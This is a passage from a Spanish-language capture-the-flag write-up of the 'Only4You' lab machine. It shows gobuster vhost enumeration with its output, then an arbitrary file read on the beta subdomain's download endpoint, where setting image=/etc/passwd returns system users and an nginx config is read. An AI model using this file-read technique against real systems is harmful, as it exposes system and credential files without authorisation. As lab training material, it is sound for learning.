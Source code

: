 SIn embargo, no parece haber nada y *dirb* no reporta ninguna ruta. Podemos intentar buscar subdominios con [[gobuster]]:

```bash
gobuster vhost -u http://only4you.htb/ -w /usr/share/wordlists/dirb/common.txt -t 10 --append-domain
```
```gobuster
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://only4you.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dirb/common.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/04/27 19:39:19 Starting gobuster in VHOST enumeration mode
===============================================================
Found: beta.only4you.htb Status: 200 [Size: 2191]
Progress: 4598 / 4615 (99.63%)
===============================================================
2023/04/27 19:40:12 Finished
===============================================================
```

Si accedemos al subdominio `beta.only4you.htb` (añadelo al */etc/hosts*), veremos que podemos descargar el código fuente de la página. Si analizamos el fichero `app.py`, veremos todas las posibles rutas a las que podemos acceder. Nos llama la atención las dos posibles subidas de archivos, sin embargo, están bien sanitizadas.

Por otro lado, la parte de la descarga no realiza tales comprobaciones. Si haciendo uso de [[burpsuite]] capturamos la petición y cambiamos el parámetro *image* por */etc/passwd*(`image=/etc/passwd`), obtenemos la siguiente respuesta:

```http
root:x:0:0:root:/root:/bin/bash
[...]
john:x:1000:1000:john:/home/john:/bin/bash
[...]
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
[...]
```

Donde vemos varios usuarios potenciales. Además, accediendo a ver el `/etc/nginx/sites-enabled/default` podemos ver la ruta de los dos *VHOSTS*: 

```ǹginx
server {
	listen 80;
	server_name only4you.htb;

	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
```